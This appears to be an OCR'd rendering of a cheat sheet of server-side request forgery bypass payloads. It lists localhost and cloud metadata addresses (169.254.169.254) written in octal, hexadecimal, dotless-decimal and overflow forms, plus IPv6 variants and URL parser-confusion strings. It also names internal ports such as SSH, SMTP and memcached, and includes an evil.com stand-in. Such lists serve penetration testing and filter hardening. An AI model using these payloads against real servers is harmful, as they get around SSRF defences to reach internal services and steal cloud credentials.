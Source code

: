 [http://0251.0376.0251.0376](.) – dotted octal

[http://0251.00376.000251.0000376](.) – dotted octal with padding

[http://2130706433/](.)

[http://[0:0:0:0:0:ffff:127.0.0.1]](.)

[localhost:+11211aaa](.)

[localhost:00011211aaaa](.)

[http://0/](.)

[http://127.1](.)

[http://127.0.1](.)

[http://0.0.0.0:22](.)

[http://[::]:80/](.)

[http://[::]:25/](.) SMTP

[http://[::]:22/](.) SSH

[http://0000::1:80/](.)

[http://1.1.1.1 &@2.2.2.2# @3.3.3.3/](.)

[0://evil.com:80;http://google.com:80/](.)

[http://127.1.1.1:80\@127.2.2.2:80/](.)

[http://127.1.1.1:80\@@127.2.2.2:80/](.)

[http://127.1.1.1:80:\@@127.2.2.2:80/](.)

[http://127.1.1.1:80#\@127.2.2.2:80/](.)

[http://169.254.169.254](.)

[http://metadata.nicob.net/](.)

[http://169.254.169.254.xip.io/](.)

[http://1ynrnhl.xip.io/](.)

[http://www.owasp.org.1ynrnhl.xip.io/](.)

[http://425.510.425.510/](.) Dotted decimal with overflow

[http://2852039166/](.) Dotless decimal

[http://7147006462/](.) Dotless decimal with overflow

[http://0xA9.0xFE.0xA9.0xFE/](.)  Dotted hexadecimal

[http://0xA9FEA9FE/](.) Dotless hexadecimal

[http://0x41414141A9FEA9FE/](.) Dotless hexadecimal with overflow

[http://0251.0376.0251.0376/](.) Dotted octal

[http://0251.00376.000251.0000376/](.) Dotted octal with padding
